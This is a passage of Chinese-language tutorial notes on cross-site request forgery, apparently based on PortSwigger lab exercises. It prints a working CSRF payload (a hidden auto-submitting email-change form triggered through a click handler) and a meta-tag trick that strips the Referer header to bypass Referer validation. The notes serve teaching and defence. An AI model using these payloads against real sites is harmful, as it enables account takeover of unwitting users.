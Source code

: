 >   <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
>       <input type="hidden" name="email" value="pwned@portswigger.net">
>   </form>
>   ```
>
>   这是一个隐藏的表单，使用 `POST` 方法提交到指定的 URL `'https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email'`。表单包含一个隐藏的输入字段，名称为 `email`，其值为 `"pwned@portswigger.net"`。
>
>2. **点击事件绑定：**
>
>   ```js
>   <script>
>       window.onclick = () => {
>           window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
>           setTimeout(changeEmail, 5000);
>       }
>   
>       function changeEmail() {
>           document.forms[0].submit();
>       }
>   </script>
>   ```
>
>   这部分 JavaScript 代码设置了一个点击事件处理程序。当页面的任意位置被点击时，首先打开了一个新窗口，访问了 `'https://YOUR-LAB-ID.web-security-academy.net/social-login'`。然后，通过 `setTimeout` 函数，等待了5秒钟（5000毫秒），之后调用了 `changeEmail` 函数。
>
>   在 `changeEmail` 函数中，通过 `document.forms[0].submit()` 来自动提交位于页面中的第一个表单，即上述定义的隐藏表单。这样，相当于在5秒钟后自动向指定的 URL 提交了一个带有预设邮箱的 POST 请求。

### 绕过基于Referer的CSRF防御

除了使用CSRF token的防御之外，一些应用程序还利用HTTP`referer` 头尝试防御CSRF攻击，通常是通过验证请求是否来自应用程序自己的域。这种方法通常效果较差，并且经常被绕过。

#### Referer 标头

HTTP Referer头(在HTTP规范中无意中拼写错误)是一个可选的请求头，其中包含链接到所请求资源的网页的URL。当用户触发HTTP请求时，浏览器通常会自动添加她，包括通过单击链接或提交表单。存在各种方法，允许链接页面保存或修改`Referer`头。

- Referer头的验证取决于头是否存在

  >某些应用程序会在`referer`头种存在时对其进行验证，但如果省略头，则跳过验证。
  >
  >在这种情况下，攻击者可以构建其CSRF漏洞，导致受害用户得浏览器在生成得请求中删除Referer头。有多种方式可以实现这一点，但最简单得方式是在托管CSRF攻击得HTML页面中使用META标记：
  >
  >该属性需要添加到HTML`head`头中
  >
  >```html
  ><meta name="referrer" content="never">
  >```
  >
  >`<meta name="referrer" content="never">` 的作用是指定在浏览器向其他站点发送请求时，不要包含当前页面的引用信息（referrer）。Referrer 是指向当前页面的链接，通常包含在 HTTP 请求头中，告诉被请求页面从哪个页面链接而来。
